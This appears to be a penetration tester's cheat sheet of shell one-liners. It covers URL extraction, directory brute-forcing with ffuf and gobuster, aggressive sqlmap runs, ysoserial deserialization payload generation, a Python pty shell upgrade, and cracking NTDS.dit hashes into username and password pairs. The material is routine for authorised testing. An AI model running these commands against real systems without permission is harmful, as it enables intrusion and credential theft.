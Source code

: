 # Regex

**Extract urls**

```
cat a | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u

cat a | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | tr '[:upper:]' '[:lower:]' | sort -u
```


**Extract strings of length 32**

```
grep -oP "\b(\w{32})\b" 
```


# tr

**Upper -> lowercase**
```
cat a | tr '[:upper:]' '[:lower:]'
```


**Lower -> uppercase**
```
cat a | tr '[:lower:]' '[:upper:]'
```



# Directory listing


**Download dictionary**
```
wget https://gist.githubusercontent.com/jhaddix/b80ea67d85c13206125806f0828f4d10/raw/c81a34fe84731430741e0463eb6076129c20c4c0/content_discovery_all.txt
```


**ffuf**
```
ffuf -t 10 -u http://url.com/FUZZ -w /root/dict/content_discovery_all.txt -fc "302"
```


**Gobuster**
```
gobuster dir -r -k -u URL -w ../dict/content_discovery_all.txt --wildcard
```


# SQLMap
```
sqlmap -r url.com --level 5 --risk 3 --batch
```


```
for i in $(ls *txt); do sqlmap -r $i --level 3 --risk 3 --dbms=Oracle --ignore-redirects --batch; done
```

# Git


```
for i in $(git log --oneline | cut -d " "  -f 1); do echo; git reset $i; git checkout -- . ; ls ; done
```


# Ysoserial
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sleep 10' | base64 -w0 -

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sleep 10' | base64 -w0 - | base64 -d  | cut -c 9- | base64 -w0 -; echo

for i in $(cat a | awk '{ print $1 }' ); do java -jar ysoserial-0.0.6-SNAPSHOT-all.jar $i 'sleep 10' | base64 -w0 - | base64 -d  | cut -c 9- | base64 -w0 -; echo; done | tee dict2.txt
```


# Upgrade shell

```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

# Docker

Kill all docker images

```
for i in $(docker ps -a | cut -d " " -f 1 | grep -v CON); do echo $i; docker rm $i; done
```

# Windows cli

## List files recursive

```
dir /s /b /o:gn
```

## Search file extension

```
dir *.chm /s /p
```

## Ntds.dit to user:pass

```
hashcat -m 1000 ntds.dit > res.txt

for i in $(cat res.txt); do ntlm=$(echo $i | cut -d ":" -f 1); pass=$(echo $i | cut -d ":" -f 2); user=$(cat ntds.dit | grep $ntlm | cut -d ":" -f 1); echo $user $pass; done | sort -u > userpass.txt
```
